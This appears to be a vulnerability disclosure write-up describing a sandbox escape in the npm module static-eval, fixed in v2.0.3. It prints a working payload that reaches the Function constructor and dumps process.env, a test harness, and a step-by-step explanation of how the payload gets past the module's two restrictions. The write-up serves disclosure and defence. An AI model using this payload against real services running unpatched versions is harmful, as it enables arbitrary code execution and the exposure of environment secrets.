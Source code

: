 Github: https://github.com/browserify/static-eval

Npm: https://www.npmjs.com/package/static-eval

The static-eval module is used to evaluate statically-analyzable expressions

Matt Austin has found the first sandbox escape vulnerability in the module1, the patch he proposed was bypassed later by Matías Lang 2, Matías's technique relied on the knowledge of a variable name that is passed to Static-eval "vars" variable, and he proposed a patch that protects against his technique. I have found a new exploitation technique that bypasses Matt's patch and doesn't rely on using variable names passed to the "vars" variable which make it more dangerous.

The payload
----------
```
 #nodejs eval.js '(function myTag(y){return ""[!y?"__proto__":"constructor"][y]})("constructor")("console.log(process.env)")()'
 #cat eval.js 
 var evaluate = require('static-eval'); 
 var parse = require('esprima').parse; 
 var src = process.argv[2]; 
 var ast = parse(src).body[0].expression; 
 console.log(evaluate(ast))
```
![Alt text](run.png?raw=true)

Restriction - 1
--------------
```
 else if (node.type === 'MemberExpression') { 
 var obj = walk(node.object); 
 // do not allow access to methods on Function 
 if((obj === FAIL) || (typeof obj == 'function')){ 
 return FAIL; 
 }
```
The above check makes sure that the user input doesn't call a function method, this will protect against normal payloads like:
```
"".constructor.constructor
```
because typeof ```"".constructor == 'function'```.

Restriction - 2
----------------
```
for(var i=0; i<node.params.length; i++){ 
 var key = node.params[i]; 
 if(key.type == 'Identifier'){ 
 vars[key.name] = null; 
 } 
 else return FAIL; 
 }
```
If the user input contains a function definition “FunctionExpression”, Static-eval will set the value for all the function arguments to null during the AST parsing, however when the function is being executed in runtime its arguments will receive their values from the call statement

Bypassing the restrictions
------------------------
I created a payload that will trick the first restriction by providing a fake object of type "object" during the AST parsing and provide the correct object of type function during the runtime.

**during the AST parsing:**
```
y=null 
""[!y?"__proto__":"constructor"] ===evaluate===> ""["__proto__"] ===> which has typeof = "object" ===> restrictions bypassed :)
```
**during the runtime:**
```
y="constructor" 
""[!y?"__proto__":"constructor"] ===evaluate===> ""["constructor"] ===> access gained to constructor function
```
Timeline
-----------
The Issue was reported to NPM on 7-Oct-2019
Fixed on v2.0.3 ```https://github.com/browserify/static-eval/releases/tag/v2.0.3```

References
---------
1 https://maustin.net/articles/2017-10/static_eval
2 https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/

